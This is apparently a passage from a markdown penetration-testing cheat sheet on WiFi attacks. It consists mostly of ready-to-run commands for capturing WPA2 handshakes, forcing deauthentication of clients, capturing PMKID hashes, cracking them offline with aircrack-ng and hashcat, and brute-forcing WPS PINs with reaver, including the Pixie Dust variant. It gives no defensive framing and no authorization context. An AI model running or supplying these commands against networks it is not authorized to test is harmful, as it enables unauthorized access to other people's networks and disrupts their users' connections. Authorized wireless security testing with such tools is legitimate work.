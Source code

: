 ### WPA/WPA2 Attack Techniques

#### 4-Way Handshake Capture
**Process Overview:**
```
WPA2 Handshake Capture:
1. Monitor target network
2. Capture 4-way handshake
3. Deauth clients to force reconnection
4. Crack captured handshake offline

Commands:
# Capture handshake
airodump-ng -c 6 --bssid TARGET_BSSID -w handshake wlan0mon

# Deauth attack to force handshake
aireplay-ng -0 5 -a TARGET_BSSID -c CLIENT_MAC wlan0mon

# Crack with dictionary
aircrack-ng -w wordlist.txt handshake.cap

# Crack with Hashcat (faster)
hashcat -m 2500 handshake.hccapx wordlist.txt
```

#### PMKID Attack
**Technique Description:**
- Exploits weakness in WPA2 implementations
- Doesn't require client deauthentication
- Single packet capture sufficient
- Offline cracking possible

```bash
# PMKID capture with hcxdumptool
hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1

# Convert for Hashcat
hcxpcaptool -z pmkid.txt pmkid.pcapng

# Crack with Hashcat
hashcat -m 16800 pmkid.txt wordlist.txt
```

### WPS Attacks

#### WPS PIN Brute Force
**Reaver Usage:**
```bash
# Basic WPS attack
reaver -i wlan0mon -b TARGET_BSSID -vv

# Attack with specific options
reaver -i wlan0mon -b TARGET_BSSID -c 6 -vv -d 2 -x 3

# Pixie dust attack (if vulnerable)
reaver -i wlan0mon -b TARGET_BSSID -K -vv
```
